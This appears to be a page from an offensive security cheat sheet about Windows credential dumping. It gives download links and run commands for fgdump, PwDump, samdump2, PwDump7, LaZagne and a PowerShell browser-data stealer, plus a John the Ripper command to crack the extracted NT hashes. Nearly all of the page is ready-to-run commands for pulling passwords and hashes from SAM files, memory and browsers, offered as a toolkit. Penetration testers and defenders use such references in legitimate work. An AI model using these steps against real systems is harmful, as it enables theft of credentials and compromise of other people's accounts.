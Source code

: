 # Other Tools / Techniques

### credential editor

This tool can be used to extract credentials from the memory. Download it from:

{% embed url="https://www.ampliasecurity.com/research/windows-credentials-editor/" %}

### fgdump

Extract credentials from the SAM file. You can find this binary inside Kali, just do:

```text
 locate fgdump.exe
```

then run it on windows:

```text
fgdump.exe
```

### PwDump

Extract credentials from the SAM file

You can find this binary inside Kali, just do:

```text
locate pwdump.exe
```

run it on windows with:

```text
PwDump.exe -o outpwdump -x 127.0.0.1
type outpwdump
```

### Generate a hash file for John using pwdump or samdump2.

```text
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Then crack it with:

```text
john -format=NT /root/sam.txt
```

### PwDump7

{% embed url="http://www.tarasco.org/security/pwdump\_7" %}

### Lazagne

{% embed url="https://github.com/AlessandroZ/LaZagne/releases/" %}

{% embed url="https://github.com/AlessandroZ/LaZagne" %}

```text
lazagne.exe all
```

### get-browserdata\(powershell\)

{% embed url="https://raw.githubusercontent.com/rvrsh3ll/Misc-Powershell-Scripts/master/Get-BrowserData.ps1" %}

```text
Get-BrowserData.ps1 | Format-List
```



